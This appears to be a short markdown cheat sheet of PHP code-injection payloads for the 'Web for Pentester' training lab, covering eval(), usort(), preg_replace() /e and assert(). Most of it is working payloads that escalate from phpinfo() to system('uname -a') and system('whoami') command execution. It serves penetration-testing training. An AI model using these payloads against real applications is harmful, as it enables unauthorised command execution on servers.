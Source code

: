 ## Code Injection
Code Injection is the general term for attack types which consist of injecting code that is then interpreted/executed by the application. This type of attack exploits poor handling of untrusted data. These types of attacks are usually made possible due to a lack of proper input/output data validation

### Web for Penterster
### example 1
` eval() - evaluates a string as PHP code ` <br>
**payload**- " .phpinfo(). "  <br>
**payload**- " . hacker".system('uname -a');#       - change to RCE  & url encode need 


### example 2
` usort() - Sort an array by values using a user-defined comparison function ` <br>
**payload**-example2.php?order=id,system('whoami') <br>
**payload**- example2.php?order=id);}system('whoami');#      - change to RCE  & url encode need 


### example 3
` preg_replace() — Perform a regular expression search and replace `<br>
**payload** - example3.php?new=phpinfo()&pattern=/lamer/e&base=Hello lamer"  <br>
**payload** - example3.php?new=system('uname -a')&pattern=/lamer/e&base=Hello lamer         - change to RCE


### example 4
` assert() - Checks if assertion is FALSE ` <br>
**payload** - example4.php?name=hacker'.phpinfo().' <br>
**payload** - example4.php?name=hacker'.system('uname -a').'


Ref : [LOL security] - ( https://www.youtube.com/channel/UCQm58nOLArHOfC5dF9zCxHg )
